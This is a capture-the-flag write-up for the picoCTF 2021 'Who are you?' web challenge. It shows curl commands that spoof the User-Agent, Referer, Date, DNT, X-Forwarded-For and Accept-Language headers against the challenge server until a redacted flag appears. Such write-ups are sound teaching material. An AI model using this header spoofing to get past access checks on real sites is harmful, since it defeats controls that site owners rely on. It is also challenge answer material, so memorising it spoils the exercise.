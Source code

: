 # Who are you?

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 100
Tags: picoCTF 2021, Web Exploitation
Author: MADSTACKS
 
Description:
Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn 

http://mercury.picoctf.net:38322/

Hints:
1. It ain't much, but it's an RFC https://tools.ietf.org/html/rfc2616
```

## Solution

Browsing to the website displays the message `Only people who use the official PicoBrowser are allowed on this site!`.  

### Changing the User-agent header

We have the wrong [user-agent header](https://en.wikipedia.org/wiki/User-Agent_header). See [section 14.43 User-Agent](https://datatracker.ietf.org/doc/html/rfc2616#section-14.43) in the RFC.

The user-agent is easiest changed with `curl`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$  curl -s -A PicoBrowser http://mercury.picoctf.net:38322/ | grep h3                         
                                <h3 style="color:red">I don&#39;t trust users visiting from another site.</h3>         
```

### Changing the Referer header

Hhm, we need to make it look as if we came from the same site. That is, change the [referer header](https://en.wikipedia.org/wiki/HTTP_referer). See [section 14.36 Referer](https://datatracker.ietf.org/doc/html/rfc2616#section-14.36) in the RFC.

Again, we use `curl` for this
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$ curl -s -A PicoBrowser -e http://mercury.picoctf.net:38322/ http://mercury.picoctf.net:38322/ | grep h3
                                <h3 style="color:red">Sorry, this site only worked in 2018.</h3>  
```

Still not there! 

### Changing the Date header

We also need to change the Date header. See [section 14.18 Date](https://datatracker.ietf.org/doc/html/rfc2616#section-14.18) in the RFC.

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$ curl -s -A PicoBrowser -e http://mercury.picoctf.net:38322/ -H "Date: Mon, 1 Apr 2018 00:00:00 GMT" http://mercury.picoctf.net:38322/ | grep h3
                                <h3 style="color:red">I don&#39;t trust users who can be tracked.</h3>
```

### Changing the DNT header

OK, we also need to change the [Do Not Track (DNT) header](https://en.wikipedia.org/wiki/Do_Not_Track).

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$ curl -s -A PicoBrowser -e http://mercury.picoctf.net:38322/ -H "Date: Mon, 1 Apr 2018 00:00:00 GMT" -H "DNT: 1" http://mercury.picoctf.net:38322/ | grep h3
                                <h3 style="color:red">This website is only for people from Sweden.</h3>
```

More work to do...

### Changing the XFF header

Hhm, we need to change the [X-Forwarded-For (XFF) header](https://en.wikipedia.org/wiki/X-Forwarded-For) as well.  
For that we need a random [IP address in Sweden](https://www.nirsoft.net/countryip/se.html) such as `213.89.89.89`.

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$ curl -s -A PicoBrowser -e http://mercury.picoctf.net:38322/ -H "Date: Mon, 1 Apr 2018 00:00:00 GMT" -H "DNT: 1" -H "X-Forwarded-For: 213.89.89.89" http://mercury.picoctf.net:38322/ | grep h3
                                <h3 style="color:red">You&#39;re in Sweden but you don&#39;t speak Swedish?</h3>
```

Still not there!

### Changing the Accept-Language header

We also need to change the Accept-Language header to be `sv`. See [section 14.4 Accept-Language](https://datatracker.ietf.org/doc/html/rfc2616#section-14.4) in the RFC.  

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Web_Exploitation/Who_are_you]
└─$ curl -s -A PicoBrowser -e http://mercury.picoctf.net:38322/ -H "Date: Mon, 1 Apr 2018 00:00:00 GMT" -H "DNT: 1" -H "X-Forwarded-For: 213.89.89.89" -H "Accept-Language: sv" http://mercury.picoctf.net:38322/ | grep h3
                                <h3 style="color:green">What can I say except, you are welcome</h3>
                        <b>picoCTF{<REDACTED>}</b>
```

And there, finally, we have the flag.

For additional information, please see the references below.

## References

- [RFC 2616 - HTTP 1.1](https://datatracker.ietf.org/doc/html/rfc2616)
- [curl(1) - Linux man page](https://linux.die.net/man/1/curl)
- [Wikipedia - User-Agent header](https://en.wikipedia.org/wiki/User-Agent_header)
- [Wikipedia - HTTP referer](https://en.wikipedia.org/wiki/HTTP_referer)
- [Wikipedia - Do Not Track](https://en.wikipedia.org/wiki/Do_Not_Track)
- [Wikipedia - X-Forwarded-For](https://en.wikipedia.org/wiki/X-Forwarded-For)
